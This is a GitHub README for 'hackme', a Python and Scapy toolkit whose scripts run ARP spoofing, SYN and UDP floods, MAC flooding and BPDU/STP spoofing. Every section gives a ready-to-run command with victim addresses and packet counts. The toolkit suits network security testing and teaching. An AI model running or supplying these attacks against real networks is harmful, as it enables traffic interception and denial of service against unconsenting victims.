 
# Hack Me

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/hackme?style=for-the-badge)](https://github.com/nadzyah/hackme/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For informational purposes only.**

See the article about how to use it [here](https://medium.com/@nadzeya/exploring-your-networks-vulnerabilities-can-you-hack-it-836aee46c156)

Any contributor to this project doesn't take any responsibility for the illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `hackmeapp.py` from a checkout of the code or install it like any other Python project. Remember that most of the scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install hackme
$ sudo hackme
usage: hackme [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `hackme` command.

To get the attack description in the terminal, enter `hackme <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

Example usage:

```bash
$ sudo hackme --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo hackme arpspoof --help` to get more information.

## SYN Flood

Example usage:

```bash
$ sudo hackme --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme synflood --help` to get more information.

## UDP Flood

Example usage:

```bash
$ sudo hackme --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme udpflood --help` to get more information.

## MAC Flood

Example usage:

```bash
$ sudo hackme --debug macflood -i wlp2s0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo hackme macflood --help` to get more information.

## BPDU Spoofing

Example usage:

```bash
sudo ./hackmeapp.py --debug stpspoof -i wlp2s0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 4096
```

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — your MAC-address
* `bb:bb:bb:bb:bb:bb` — victim switch's MAC-address
* `4096` — priority for choosing the root switch (the lower the number, the higher the priority, so make sure it's low enough to become the root). Must be divisible by 4096
